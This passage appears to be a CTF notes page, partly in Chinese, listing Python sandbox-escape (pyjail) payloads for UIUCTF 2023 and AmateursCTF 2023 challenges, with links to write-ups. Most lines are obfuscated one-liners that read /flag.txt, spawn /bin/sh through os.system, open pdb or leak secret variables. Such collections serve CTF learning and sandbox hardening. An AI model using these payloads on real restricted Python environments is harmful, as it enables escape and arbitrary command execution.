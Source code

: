   ```py
  print(vars(vars()["license"])["_Printer__lines"])
  vars(vars()["license"])["_Printer__filenames"]=["flag.txt"]
  print(vars()["license"]())
  ```
  - `exit(vars(vars(type)["__subclasses__"](type.mro(type({}))[1])[99])['get_data'](vars(type)["__subclasses__"](type.mro(type({}))[1])[99]('flag.txt','./'),'flag.txt'))`
  - `x = vars(); a = [ x[k] for k in x.keys() ][:-1];aa = a[76];ga = vars(aa)['__getattribute__'];scs = ga(ga(aa,'__base__'),'__subclasses__')(); o = ga(scs[84],'load_module')('os'); vars(o)['system']('/bin/bash')`
  - `[1 for _ in '']+[x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close'][0]['system']('/bin/sh')`
  - `(lambda:__loader__.load_module("os").system("/bin/sh"))()`
  - `(lambda:().__class__.__base__.__subclasses__()[100].__init__.__globals__["__builtins__"]["__import__"]("os").system("/bin/sh"))()`
  - `__build_class__.__self__.__import__("os").system("sh")`
- [rattler_read](https://github.com/sigpwny/UIUCTF-2023-Public/tree/main/challenges/pwn/rattler_read)
    ```py
    """
    g=(print(g.gi_frame.f_back.f_back.f_builtins['open']('/flag.txt').read())for x in(0,))
    for x in g:0
    """.strip()
    .replace("\n", "\r")
    ```
    - `[print(y('/flag.txt').read()) for x,y in enumerate(string.Formatter().get_field('a.__self__.open', [], {'a': repr})) if x==0]`
    - `print(string.Formatter().get_field("a.__init__.__globals__[sys]", [], kwargs={"a":string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], kwargs={"a":[]})[0]().pop(107)})[0].modules.pop('os').popen('cmd').read())`
    - https://github.com/nikosChalk/ctf-writeups/tree/master/uiuctf23/pyjail/rattler-read/writeup : `class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), ""); \rBaz().format("{0.Random.__init__.__globals__[_os].system}", random)`
    - https://ur4ndom.dev/posts/2023-07-02-uiuctf-rattler-read/ ：`string.Formatter().get_field("a.__class__.__base__.__subclasses__", [], {"a": ""})[0]()[84].load_module("os").system("sh")`,`for f in (g := (g.gi_frame.f_back.f_back for _ in [1])): print(f.f_builtins)`(逃逸exec的上下文然后请求builtin。这句还没有实现执行命令或者读文件，只是导出builtins。导出后参考上面的用法使用)
- [Censorship](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2023/misc/censorship)：环境包含flag变量需要泄露+绕过滤
    - 覆盖程序函数从而取消过滤。如题目用ascii(input)来保证输入只能是ascii。我们可以让`ascii = lambda x: x`，然后就能用非ascii字符绕过
    - https://github.com/D13David/ctf-writeups/tree/main/amateursctf23/misc/censorship ：题目中存在包含flag的变量`_`，直接`locals()[_]`然后keyerror
      - 类似的还有`{}[_]`,`vars()[_],globals()[_]`.要求题目会返回exception的内容
    - `vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]])[(*vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]()`:开启pdb
    - `vars(vars()['__bu' + chr(105) + chr(108) + chr(116) + chr(105) + 'ns__'])['pr' + chr(ord('A') ^ ord('(')) + 'n' + chr(ord('H') ^ ord('<')) + ''](vars()[chr(102) + chr(108) + chr(97) + chr(103)])`
    - https://github.com/rwandi-ctf/ctf-writeups/blob/main/amateursctf2023/censorships.md#censorship ：`vars(globals()["__buil" + chr(116) + "ins__"])["prin" + chr(116)](_)`。vars+globals构造字典取print
    - https://xhacka.github.io/posts/writeup/2023/07/19/Censorship/ ：`vars(globals()[dir()[2]])[globals()[dir()[2]].__dir__()[42]](globals())`
- [Censorship Lite](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2023/misc/censorship-lite)：类似Censorship但更多过滤
    - intend解法可以getshell，但是有点复杂
    - `any="".__mod__;print(flag)`:覆盖any函数后过滤失效，直接print. https://hackmd.io/@yqroo/Censorship-series
    - `vars(vars()['__bu' + chr(ord('A')^ord('(')) + chr(ord('E')^ord(')')) + chr(ord('H') ^ ord('<')) + chr(ord('A')^ord('(')) + 'ns__'])['pr' + chr(ord('A') ^ ord('(')) + 'n' + chr(ord('H') ^ ord('<')) + ''](vars()['f' + chr(ord('E')^ord(')')) + 'ag'])`
    - https://xhacka.github.io/posts/writeup/2023/07/19/Censorship/#censorship-lite : `vars(vars()[[*vars()][ord('A')-ord('B')]])[[*vars(vars()[[*vars()][ord('A')-ord('B')]])][ord('M')-ord('A')]]()`,开启pdb